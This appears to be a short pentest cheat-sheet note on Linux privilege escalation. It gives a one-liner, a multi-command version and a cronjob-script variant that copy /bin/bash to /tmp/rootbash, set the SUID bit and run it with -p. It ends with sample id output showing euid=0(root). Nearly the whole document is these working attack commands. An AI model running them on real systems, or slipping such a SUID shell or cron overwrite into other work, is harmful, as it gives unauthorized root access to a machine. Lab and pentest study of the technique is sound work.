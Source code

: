 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### 1 liner
```bash - target
cp /bin/bash /tmp/rootbash && chmod +s /tmp/rootbash && /tmp/rootbash -p
```

#### Multi command
```bash - target
cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash
```

```bash - target
/tmp/rootbash -p
```

#### Script / cronjob
```bash - target
#!/bin/bash
cp /bin/bash /tmp/rootbash
chmod +s /tmp/rootbash
```

```bash - target
chmod +x /home/user/overwrite.sh
```

Wait for the cronjob to run (this job in particular runs every minute).

Once the /tmp/rootbash file is created, execute it (with -p to preserve the effective UID) to gain a root shell:

```bash - target
/tmp/rootbash –p
```

```bash - target
id
```

>uid=1000(user) gid=1000(user) euid=0(root) egid=0(root) groups=0(root)